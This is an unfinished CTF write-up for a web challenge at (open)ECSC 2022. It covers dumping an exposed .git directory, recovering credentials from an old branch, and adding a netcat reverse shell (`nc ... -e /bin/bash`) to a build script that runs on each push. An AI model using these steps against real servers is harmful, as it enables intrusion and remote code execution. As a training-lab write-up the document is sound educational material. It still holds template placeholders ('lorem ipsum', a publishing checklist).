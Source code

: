 ```yaml
---
layout: writeup
categories: [writeup]

# Mandatory parameters
title:  "Glaciers of Switzerland"
author: "punshLineLama"
date:   2022-09-15 01:10:05 +0200
event: "(open)ECSC 2022"

# Optional parameters
ctf_categories: [web]
image: "img/chall.png"
---
```



![Image of Challenge](img/chall.png)

## TL;DR
- Brute-force directories.
- Find the .git directory
- Extract the repo with git-dumper (https://github.com/arthaud/git-dumper)
- Find the credientials in the git history of an old branch
- Write to the repo with the extracted creds and get code execution

## Complete Writeup

With gobuster, we found that there is a .git directory on the server.
Then we installed git-dumper with `pip3 install git-dumper`
Then extracted the repo with:
`~/.local/bin/git-dumper https://ea439dee-8c4d-4ead-aa86-40a208094d02.idocker.vuln.land//website-repo/.git ~/Documents/openecsc/repo_dump`

![](img/pic1.png)

There was nothing too interesting in the files. 
With  gitkraken we did some further exploration and found an old version of the README.md with had credientials in them:
![](img/creds.png)

As the build.sh gets executed on each push, we modified it to get us a nc reverse shell back:

```bash
#!/bin/bash

cp index.html.tpl index.html
nc 10.13.0.xxx 5555 -e /bin/bash

```
Then we started a listener with `nc -lnvp 5555`

And pushed to the repo:
`git push https://ea439dee-8c4d-4ead-aa86-40a208094d02.idocker.vuln.land/.git-server/website.git/`

We get a reverse shell back and get the flag. (Sorry I did not save the flag.)

## Final Solution
lorem ipsum

## Lessons learned
Its often easier to use a GUI tool to explore all branches and commits of a git repo.

# Checklist before publishing this writeup
- [ ] Change the date and title of the filename itself
- [ ] Change the date and title inside the properties in the top of the file
- [ ] Change the other properties in the top of the file
- [ ] Fill in the different sections: Description, TL;DR; Complete Writeup; Final Solution; Lessons learned
- [ ] You can change the section strucute if you want (For small challenges a TL;DR is unnecessary)
- [ ] Delete this section from the markdown!